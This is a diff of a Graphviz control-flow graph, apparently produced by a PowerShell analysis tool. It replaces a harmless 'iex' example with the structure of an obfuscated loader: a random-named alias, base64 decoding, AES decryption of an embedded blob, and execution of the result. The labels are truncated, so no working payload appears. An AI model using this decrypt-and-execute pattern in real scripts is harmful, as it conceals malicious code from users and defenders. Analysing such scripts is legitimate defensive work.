

digraph G {
    rankdir=TB;
    node [
        fontname="Consolas"
        shape=box
        width=0
        height=0
        margin="0.2,0.1"
        fontsize=10
    ];
    edge [fontname="Arial", arrowhead=vee, fontsize=9];

    // Nodes
    1 [label="Id 1\lStart\lScript Start", shape=oval];
    2 [label="Id 2\lEnd\lScript End", shape=oval];
    3 [label="Id 3\lMainStart\lMain Script", shape=box];
    4 [label="Id 4\lMainEnd\lEnd Main Script", shape=box];
-     5 [label="Id 5\lAssignmentStatementAst\l$t = 'Write-Host \"Hello\"'", shape=box];
-     6 [label="Id 6\lPipelineElement\liex $t\l[DYN: IEX]", shape=box, style=filled, fillcolor="#ffcccc", color="#cc0000", penwidth=2];
+     5 [label="Id 5\lPipelineElement\lset-alias cujxn72ea5dpthmvbr4s03fw19ilqgok ...", shape=box];
+     6 [label="Id 6\lFunctionDef\lfunction MPLPEWLUKV", shape=box];
+     7 [label="Id 7\lFuncStart\lfunction MPLPEWLUKV", shape=oval];
+     8 [label="Id 8\lFuncEnd\lEnd function MPLPEWLUKV", shape=oval];
+     9 [label="Id 9\lAssignmentStatementAst\l$BJYBUHVIVB = \"VMTly6cPQeWle7YeP1hddP2Vi3bK79k...", shape=box];
+     10 [label="Id 10\lAssignmentStatementAst\l$sdoguy4 = New-Object System.Text.ASCIIEncoding", shape=box];
+     11 [label="Id 11\lAssignmentStatementAst\l$OXTWKLFCGZd = $sdoguy4.GetBytes(\"CQFZMTDLPVTE...", shape=box];
+     12 [label="Id 12\lAssignmentStatementAst\l$BJYBUHVIVBa = [Convert]::FromBase64String($BJY...", shape=box];
+     13 [label="Id 13\lAssignmentStatementAst\l$ei4i4gg = New-Object System.Security.Cryptogra...", shape=box];
+     14 [label="Id 14\lAssignmentStatementAst\l[Byte[]] $QCHVGKTLVU = $ei4i4gg.GetBytes(16)", shape=box];
+     15 [label="Id 15\lAssignmentStatementAst\l$MHCWDDIGPG = New-Object System.Security.Crypto...", shape=box];
+     16 [label="Id 16\lAssignmentStatementAst\l$MHCWDDIGPG.Mode = [System.Security.Cryptograph...", shape=box];
+     17 [label="Id 17\lAssignmentStatementAst\l[Byte[]] $CVICJVPVNI = New-Object Byte[]($BJYBU...", shape=box];
+     18 [label="Id 18\lAssignmentStatementAst\l$RGHSXHIEZK = $MHCWDDIGPG.CreateDecryptor($QCHV...", shape=box];
+     19 [label="Id 19\lAssignmentStatementAst\l$JDRQTNMOQY = New-Object System.IO.MemoryStream...", shape=box];
+     20 [label="Id 20\lAssignmentStatementAst\l$XUMCQXPHKW = New-Object System.Security.Crypto...", shape=box];
+     21 [label="Id 21\lAssignmentStatementAst\l$NINZMXBJWF = $XUMCQXPHKW.Read($CVICJVPVNI, 0,...", shape=box];
+     22 [label="Id 22\lPipelineElement\l$JDRQTNMOQY.Close()", shape=box];
+     23 [label="Id 23\lPipelineElement\l$XUMCQXPHKW.Close()", shape=box];
+     24 [label="Id 24\lPipelineElement\l$MHCWDDIGPG.Clear()", shape=box];
+     25 [label="Id 25\lAssignmentStatementAst\l$h = $CVICJVPVNI[3..($CVICJVPVNI.Length-1)]", shape=box];
+     26 [label="Id 26\lReturn\lreturn $sdoguy4.GetString($CVICJVPVNI)", shape=box];
+     27 [label="Id 27\lAssignmentStatementAst\l$MDRLXNBGJB = MPLPEWLUKV \"2wu9oz7d04mljvxg15e8...\l[CALLS: Func: MPLPEWLUKV]", shape=box, style=filled, fillcolor="#cce5ff", color="#0066cc", penwidth=2];
+     28 [label="Id 28\lPipelineElement\lcujxn72ea5dpthmvbr4s03fw19ilqgok  $MDRLXNBGJB", shape=box];

    // Edges
    1 -> 3;
    3 -> 5;
    5 -> 6;
-     6 -> 4;
+     7 -> 9;
+     9 -> 10;
+     10 -> 11;
+     11 -> 12;
+     12 -> 13;
+     13 -> 14;
+     14 -> 15;
+     15 -> 16;
+     16 -> 17;
+     17 -> 18;
+     18 -> 19;
+     19 -> 20;
+     20 -> 21;
+     21 -> 22;
+     22 -> 23;
+     23 -> 24;
+     24 -> 25;
+     25 -> 26;
+     26 -> 8 [label="Return"];
+     6 -> 27;
+     27 -> 28;
+     28 -> 4;
    4 -> 2;
}